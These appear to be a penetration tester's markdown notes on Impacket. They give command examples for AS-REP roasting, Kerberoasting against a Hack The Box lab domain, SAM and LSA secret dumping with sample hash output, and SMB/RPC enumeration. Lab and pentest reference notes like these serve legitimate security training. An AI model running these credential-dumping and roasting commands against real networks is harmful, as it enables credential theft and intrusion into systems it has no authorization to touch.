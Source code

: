 ```yaml
---
Description: Impacket is a collection of Python classes for working with network protocols.
URL: https://github.com/SecureAuthCorp/impacket/
---
```


>[!summary]
>[Impacket](https://github.com/SecureAuthCorp/impacket/) is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.
>
>Scripts can be found under the path `/usr/share/doc/python3-impacket/examples/`

### SMB Server

- [SMB Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB)

### Pass-the-Hash

[smbclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py)

### AS-REP Roasting

```bash
kali@kali:~$ GetNPUsers.py domain.local/user
...
TGT_HASH
...
kali@kali:~$  john tgt
```

### Dumping SAM

```bash
┌──(kali㉿kali)-[~/…/ntwk/student/5/loot]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -security security -system system LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x9cdfb1caf527c0ebdce1dc4677aefd96
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a8c8b7a37513b7eb9308952b814b522b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:05fa67eaec4d789ec4bd52f48e5a6b28:2733cdb0d8a1fec3f976f3b8ad1deeef:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:0f7a50dd4b95cec4c1dea566f820f4e7:::
alice:1004:aad3b435b51404eeaad3b435b51404ee:b74242f37e47371aff835a6ebcac4ffe:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:0f6ffb25902098cd2b3e8890856545f0e2ba142f427762e0e91c5084
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3d9d86b905e39b1a0492d8ef88d7691c
...
0020   D1 43 ED 7C CA 89 05 22  CE 19 BF 71 D8 A6 2C E7   .C.|..."...q..,.
 0030   78 81 65 A8 16 92 CC C6  4A 2B 5F 52 96 0A 5F 2E   x.e.....J+_R.._.
NL$KM:550b6765af5f56ca365ab52b98073320c1405cee6ca822b599d7249f64d9c8c4d143ed7cca890522ce19bf71d8a62ce7788165a81692ccc64a2b5f52960a5f2e
[*] Cleaning up...
```

### mssqlclient.py

```bash
$ mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
```

### rdp_check

```bash
$ rdp_check <domain>/<name>:<password>@<IP>
```

### samrdump.py

```bash
# Dump user information
/usr/share/doc/python3-impacket/examples/samrdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/samrdump.py -port 445 [[domain/]username[:password]@]<targetName or address>
```

### rpcdump.py

```bash
# Map possible RPC endpoints
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 135 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 139 [[domain/]username[:password]@]<targetName or address>
/usr/share/doc/python3-impacket/examples/rpcdump.py -port 445 [[domain/]username[:password]@]<targetName or address>
```

### GetUserSPNs

```bash
sudo ntpdate 10.10.10.100
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request -o TGS
```

If you find this **error** from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it because of your local time, you need to synchronize the host with the DC: `ntpdate <IP of DC>`